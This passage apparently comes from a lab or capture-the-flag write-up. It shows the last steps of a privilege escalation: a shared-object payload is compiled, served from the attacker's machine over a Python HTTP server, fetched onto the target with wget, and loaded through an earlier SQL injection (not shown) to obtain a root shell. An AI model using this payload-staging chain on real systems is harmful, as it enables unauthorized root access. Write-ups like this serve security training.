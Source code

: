 Now we need to compile it with:
```bash
gcc -shared -o d.so d.c
```
once we compiled the shared object file we can upload it via python server:
local machine:
```bash
python3 -m http.server 80
```
remote machine:
```bash
wget http://10.10.14.151/d.so
```
once we have the file on the remote host we can run the sqlinjection above and get a root shell!!
	
![root exploit](./pic/root.png)
	
IT IS IMPORTANT TO EXPORT THE PATH VARIABLE OTHERWISE U WILL NOT BE ABLE TO EXECUTE COMMANDS WITH THIS EXPLOIT!!

